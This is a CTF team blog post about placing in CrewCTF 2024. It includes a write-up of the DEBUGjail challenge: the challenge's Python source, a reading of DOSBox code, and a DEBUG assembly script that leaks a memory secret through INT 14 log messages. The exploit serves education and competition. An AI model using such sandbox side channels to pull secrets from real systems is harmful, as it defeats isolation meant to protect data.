 ```yaml
---
title: "DC225 Draws First Blood at CrewCTF 2024"
layout: blog_article
author: dc225
version: 1.1.1
description: ""
---
```


We are excited to share that DEFCON225 (DC225) has made a significant impact at this year's 3rd Edition of [Crew Capture the Flag (CTF)](https://2024.crewc.tf/teams/469) competition hosted by [TheHackersCrew](https://www.thehackerscrew.team/).

CrewCTF 2024 was an intense and highly competitive event, featuring some of the best cybersecurity minds from around the globe. Despite the fierce competition, DEFCON225 managed to place in the top 10%, a testament to our dedication, skill, and teamwork.

We want to extend our gratitude to all our team members for their hard work and commitment. This achievement not only showcases our capabilities but also sets a high bar for our future endeavors.

The **DEBUGjail** challenge was particularly demanding, garnering only 3 solves. Drawing first blood in such a challenge highlights our team's ability to think outside the box and tackle complex problems under pressure.

**Our DEBUGjail Challenge Write-up**

In the spirit of fostering growth and learning within the cybersec community, we are pleased to share our write-up on how we solved the DEBUGjail challenge. By providing this detailed account, we hope to contribute to the collective knowledge base and support others in honing their skills. Read on to discover our approach that led to our success with this well crafted challenge by author **Aali**.

_Jails can be so restrictive. This jail is different! You can do whatever you want! As long as what you want is to use a debugger from 1991._

The challenge provided the aforementioned description and the following Python code:

```python
import sys
import os
import subprocess
import tempfile
import shutil

from secrets import FLAG

SECRET = os.urandom(16)

secret_script = "\r".join(["f 0000:02%02x 2%02x %02x" % (i,i,b) for (i,b) in enumerate(SECRET)]) + "\rQ\r"

tempdir = tempfile.TemporaryDirectory()

shutil.copy("DEBUG.EXE", tempdir.name) # DEBUG.EXE from MS-DOS 5.0, unmodified

open(tempdir.name + "/secret.dsf", "w").write(secret_script)

print("The secret is at address 0000:0200 in memory.")
print("There is no memory protection so just go ahead and read it ¯\_('_')_/¯")
print("Enter your DEBUG script, end with a line containing only 'Q':")

debug_script = ""

while True:
  line = sys.stdin.readline().strip()

  debug_script = debug_script + line + "\r" # DOSBox + DEBUG + linefeed = bad

  if line == "Q":
    break

open(tempdir.name + "/input.dsf", "w").write(debug_script)

cmds = [
  "mount c: " + tempdir.name,
  "config -securemode",
  "c:",
  "debug < secret.dsf",
  "del secret.dsf",
  "debug < input.dsf",
  "exit",
]

args = ["dosbox"] + sum([["-c", cmd] for cmd in cmds], [])

subprocess.run(args, timeout = 10)

if input("What was the secret? ") == SECRET.hex():
  print(f"That is correct! Here is your flag: {FLAG}")
else:
  print("Sorry that's not correct, better luck next time!")
```

The script randomly generates a secret value 16 bytes in length, and then generates a `secret_script` that is executed by [DEBUG.EXE](<https://en.wikipedia.org/wiki/Debug_(command)>) to store the secret at memory address 0000:0200 in a DOSBox environment.

```python
SECRET = os.urandom(16)

secret_script = "\r".join(["f 0000:02%02x 2%02x %02x" % (i,i,b) for (i,b) in enumerate(SECRET)]) + "\rQ\r"
```

We're then given the opportunity to provide our own DEBUG commands to extract the secret value from memory, followed by Q (quit). The following snippet of the script contains a list of DOS commands that are passed to a DOSBox environmnet. `secret.dsf` is run first (to load the secret into memory), followed by our script:

```python
cmds = [
  "mount c: " + tempdir.name,
  "config -securemode",
  "c:",
  "debug < secret.dsf", # loads the secret into memory at address 0000:0200
  "del secret.dsf", # delete the `secret_script` so the user cannot cheese it
  "debug < input.dsf", # run the user supplied script
  "exit",
]

args = ["dosbox"] + sum([["-c", cmd] for cmd in cmds], [])

subprocess.run(args, timeout = 10)
```

This should be pretty straightforward. We simply utilize the DEBUG.EXE utility to read the secret right back...

<img src="/assets/blog/debugjail.webp" border="0" alt="DEBUGjail screenshot" class="lazy" />

Here we attempted to dump the memory at address `0000:0200`, then we used the assembler command of DEBUG to create an endless loop to help screen capture what's happening here. DOSBox runs the DEBUG command, passing in the `secret.dsf` script, then our `input.dsf` script. In the screenshot, we see that the bytes from the `secret.dsf` `f (fill)` commands and our `input.dsf` memory dump command are a match!

Excellent! We have solved the challenge... Or so we thought. Unfortunately in the live challenge, we are unable to see the DOSBox GUI/terminal.

**Enter DOSBox source code**

Because we can't see the GUI, there could be a way to get DOSBox to exfil the secret to us over the CLI we _can_ see. A grep of DOSBox source code for `"SHELL:Redirect input"` found a match on line 226 of `src/shell/shell.cpp`:

```cpp
if(DOS_OpenFile(in,OPEN_READ,&dummy)) {	//Test if file exists
    ...
    LOG_MSG("SHELL:Redirect input from %s",in);
    ...
}
```

Thus the hunt began for a `LOG_MSG()` call that we could use to pass data back to us. A promising bit of code was found on line 454 of `src/ints/bios.cpp`:

```cpp
static Bitu INT14_Handler(void) {
    if (reg_ah > 0x3 || reg_dx > 0x3) {	// 0-3 serial port functions
                                        // and no more than 4 serial ports
        LOG_MSG("BIOS INT14: Unhandled call AH=%2X DX=%4x",reg_ah,reg_dx);
        return CBRET_NONE;
    }
    ...
```

A web search for INT 14 led us to something to do with `BIOS Asynchronous Communications Services`, and the `INT14_Handler()` function appears to be involved in handling this interrupt.

Conveniently, we can avoid the handler's intended functionality by loading values greater than 0x3 into either the AH or DX registers, and upon calling the interrupt, `LOG_MSG()` will be called, printing the values stored in the aforementioned registers!

**The exploit**

The following DEBUG script assembles and then runs code to exfil the secret bytes.

For each byte of the secret, it loads the byte value into the DH register and then triggers `INT 14`. Upon calling the interrupt, an error message containing the value is printed to the CLI that is executing DOSBox.

```
C:\>debug
-a 100
073F:0100 xor ax,ax    # zero ax
073F:0102 mov ds,ax    # load DS (Data Segment) register with 0000
073F:0104 mov ah,4     # load the value 4 to satisfy DOSBox `if` statement
073F:0106 mov si,0200  # load SI with the offset into the segment (thus 0000:0200)
073F:0109 xor dx,dx
073F:010B mov dl,ff    # load the value FF into DL (for our own display purposes)
073F:010D mov dh,[si]  # load the byte at 0000:02xx into DH
073F:010F int 14       # call the interrupt, triggering the "error message"
073F:0111 inc si
073F:0112 cmp si,0210
073F:0116 jne 010d     # exfil the next byte or
073F:0118 mov ax,4c00
073F:011B int 21       # terminate with return code 0
073F:011D
-g
```

[![asciicast](https://asciinema.org/a/m92aEgJn8CtA0pEekqIuUjHP8.svg)](https://asciinema.org/a/m92aEgJn8CtA0pEekqIuUjHP8)

**Wrap-up**

Solving DEBUGjail was a refreshingly nostalgic experience for DEFCON225. It was invigorating to tackle a challenge that required truly out-of-the-box thinking and a deep dive into vintage computing techniques. The unique nature of this challenge, harking back to the days of DOS and DEBUG.EXE, provided a stimulating contrast to the more contemporary cybersecurity problems we usually encounter.

Big shout-outs to Aali for crafting such an innovative and challenging task. It was a brilliant reminder of the diverse range of skills and knowledge that cybersecurity encompasses. Additionally, we are grateful to TheHackersCrew for organizing and hosting CrewCTF 2024, making such enriching experiences possible.
